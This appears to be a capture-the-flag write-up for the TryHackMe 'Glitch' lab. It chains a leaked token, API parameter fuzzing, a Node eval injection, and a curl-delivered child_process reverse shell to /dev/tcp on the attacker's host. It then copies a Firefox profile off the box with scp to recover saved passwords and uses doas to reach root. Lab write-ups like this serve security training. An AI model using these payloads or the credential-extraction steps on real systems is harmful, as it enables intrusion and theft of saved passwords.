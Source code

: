 # 📝 Writeup – Glitch (TryHackMe)

---

## TL;DR (because we’re lazy)
Found a token in `/api/access`, set it as the browser token to unlock the site, discovered a vulnerable `/api/items` endpoint that evals a `cmd` parameter, abused that (child_process.exec) to get a Node reverse shell, escalated from `user` → `v0id` by extracting Firefox saved passwords, and then used `doas` rights to read the root flag. Clean, weird, fun.

---

## ENUMERATION
Start with the usual nmap sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Only port open: `80`. Focused scan:

```bash
nmap -p80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:
![nmap](screenshots/nmap1.png)

---

## PORT 80 — site exploration

The site looked empty except for a glitchy background. Inspecting the source revealed an `/api/access` endpoint. Visiting it returned a base64 token. Decode it:

```bash
echo 'BASE64TOKEN' | base64 -d
```

Screenshot:
![token](screenshots/token.png)

Set that decoded value in DevTools (Application → Cookies → `token`) and refresh. The site unlocks more content. Inspecting the page source revealed `js/script.js` -> revealed an API endpoint: `/api/items`.

Screenshots:
![dev\_tools](screenshots/dev_tools.png)

![api_items](screenshots/api_items.png)     

The frontend used `GET` to view items, but the API accepted `POST` too — so we fuzzed query/body params.

---

## FINDING THE VULN — parameter fuzzing

I fuzzed possible query parameter names with `ffuf` (POST):

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt:FUZZ \
  -X POST -u "http://<IP>/api/items?FUZZ=test"
```

Result: the endpoint accepted a `cmd` parameter. Quick manual probe:

```bash
curl -X POST "http://<IP>/api/items?cmd=test"
```

Screenshots:
![parameter\_fuzzing](screenshots/parameter_FUZZ.png)
![curl](screenshots/curl.png)

Response contents showed the backend was using `eval()` or similar, so we can used Node-style `child_process`. That’s exactly the kind of code-injection RCE you want.

---

## EXPLOITATION — spawn a shell

Since the server was running Node and evaluating `cmd`, we can invoke `require('child_process').exec(...)`. You need to URL-encode the payload so special characters survive.

**Simpler (less quoting hell) technique:** use `--data-urlencode` to let `curl` handle encoding. Example payload that runs a reverse TCP shell:

> Note: replace `<ATTACK_IP>` and `<PORT>` and run a listener (`nc -nvlp <PORT>`) on your machine first.

```bash
curl -s -X POST --get \
  --data-urlencode "cmd=require('child_process').exec(\"/bin/bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1\")" \
  "http://<IP>/api/items"
```

If that quoting is annoying, build the encoded payload in Python and send:

```bash
python3 -c "import urllib.parse,sys;print(urllib.parse.quote(\"require('child_process').exec('/bin/bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1')\"))"
# then use curl with the encoded value: ?cmd=<ENCODED>
```

Start your listener:

```bash
nc -nvlp <PORT>
```

Trigger the payload, and you get a shell as the web process user.

Screenshot:     
![child\_process](screenshots/child_process.png)

---

## user → v0id (steal FF profile)

While poking around, I found a `.firefox` profile in the user’s home. Firefox stores saved passwords in the profile — so getting that directory is a fast win.

On the box get a proper TTY:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Tar the profile and transfer it off the box.

### 1) Prep your attacker machine — enable SSH server

(Assumes a Linux attacker box — Debian/Ubuntu examples. If you’re on another distro, adapt package manager.)

```bash
# install OpenSSH server
sudo apt update
sudo apt install openssh-server -y

# ensure SSH service is running and enabled
sudo systemctl start ssh

# check status
sudo systemctl status ssh
```

Make note of your attacker IP (e.g. `10.10.14.5`). You’ll use that from the target.

---

### 2) On the target (user shell), pack the Firefox profile

Create a tarball of the `.firefox` profile (or the folder you want):

```bash
# from the user's current dir where .firefox is located
tar -czvf firefox.tgz .firefox
# verify file exists
ls -lh firefox.tgz
```
---

### 3) From the target: `scp` the tarball to your attacker machine

Use the attacker username and IP you set up. Example — attacker username `kali`, attacker IP `10.10.14.5`:

```bash
scp firefox.tgz kali@10.10.14.5:/home/kali/firefox.tgz
# you will be prompted for kali's password on the attacker machine
```

If your SSH server runs on a non-standard port on the attacker, add `-P <port>`:

```bash
scp -P 2222 firefox.tgz kali@10.10.14.5:/home/kali/firefox.tgz
```
---

### 4) On attacker: receive & extract

Once the file is on your machine:

```bash
# list and confirm
ls -lh /home/kali/firefox.tgz

# extract
tar -xzf firefox.tgz
# open the profile with a disposable firefox profile (no-remote)
firefox --no-remote --profile .firefox/b5w4643p.default-release --allow-downgrade
```

Now inspect saved logins, cookies, etc.

---
Navigate to password and yay — password for `v0id`.      
Screenshot:       
![firefox](screenshots/firefox.png)

`su v0id` or SSH as v0id.

---

## v0id → root (doas)

I hunted for SUID or sudo-like configs.

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# search for doas.conf
find / -name doas.conf 2>/dev/null
```

`doas` is like a minimal sudo. If the conf allowed user as root.       
Found a `doas.conf` that permits `v0id` to run commands as root.       
Screenshots:     
![suid_files](screenshots/perm4000.png)      
![doas_config](screenshots/doas_conf.png)

Now all we have to do is cat flag:      
```bash
doas -u root cat /root/root.txt
```

Boom — root flag.      
Screenshot:       
![doas\_root](screenshots/doas_root.png)

---


## Final words

Glitch was a neat chain: token → unlock UI → fuzz API → JS eval RCE → child_process shell → steal Firefox creds → doas → root. Classic mix of front-end curiosity + backend injection. Good job finding that token early — that’s the pivot point.

---
